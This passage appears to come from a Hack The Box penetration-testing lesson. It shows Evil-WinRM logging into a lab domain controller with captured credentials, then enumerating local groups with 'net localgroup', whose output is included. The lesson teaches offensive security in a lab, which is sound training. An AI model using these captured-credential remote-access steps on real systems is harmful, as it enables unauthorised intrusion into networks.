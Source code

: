 #### Connecting to a DC with Evil-WinRM

We can connect to a target DC using the credentials we captured.

```shell-session
Ovas420@htb[/htb]$ evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

Evil-WinRM connects to a target using the Windows Remote Management service combined with the PowerShell Remoting Protocol to establish a PowerShell session with the target.

#### Checking local group membership

Once connected, we can check to see what privileges `bwilliamson` has. We can start with looking at the local group membership using the command:

```shell-session
*Evil-WinRM* PS C:\> net localgroup

Aliases for \\DC01

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Account Operators
*Administrators
*Allowed RODC Password Replication Group
*Backup Operators
*Cert Publishers
*Certificate Service DCOM Access
*Cryptographic Operators
*Denied RODC Password Replication Group
*Distributed COM Users
*DnsAdmins
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Incoming Forest Trust Builders
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Pre-Windows 2000 Compatible Access
*Print Operators
*RAS and IAS Servers
*RDS Endpoint Servers
*RDS Management Servers
*RDS Remote Access Servers
*Remote Desktop Users
*Remote Management Users
*Replicator
*Server Operators
*Storage Replica Administrators
*Terminal Server License Servers
*Users
*Windows Authorization Access Group
The command completed successfully.
```
